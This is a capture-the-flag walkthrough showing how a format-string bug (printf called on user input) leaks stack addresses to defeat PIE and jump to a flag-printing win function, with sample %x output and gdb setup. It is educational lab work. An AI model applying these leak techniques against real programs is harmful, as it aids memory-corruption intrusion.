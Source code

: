 The `main` function here calling another function `call_functions`

The function `call_functions` is taking a input name and then taking a input address and will call the function at that memory address.

The `win` function here is printing the flag from a file flag.txt, which is most prolly on the remote server

To test our exploit locally, we’ll create a dummy `flag.txt` file with a fake flag:

```
## flag.txt

flag{fake_flag}
```


Now the exploit here is to pass address of `win` function in the memory address input and hence the flag from `flag.txt` will get printed.

Since PIE is enabled we need to leak a runtime memory address of any function/variable in order to calculate offset for win function to evaluate actual runtime address of win function.

Now if we look at the code inside function `call_functions`
```c
  char buffer[64];
  printf("Enter your name:");
  fgets(buffer, 64, stdin);
  printf(buffer);
```

The `buffer` directly passed to printf which can cause the **format string** vulnerability.

We can print data on stack using `%x` as input

```bash
$ ./vuln
Enter your name:%x%x%x
25782578fbad2288a782578
 enter the address to jump to, ex => 0x12345:
```

Similarly `%p` can be  used to leak memory addresses.

Now lets run `vuln` and attach a debugger to it  -


```bash
$ ./vuln
Enter your name:

```

In another terminal windows attach `gdb`

```bash

$ ps ax  | grep vuln
   4053 pts/2    S+     0:00 ./vuln
   4287 pts/4    S+     0:00 grep --color=auto vuln

```

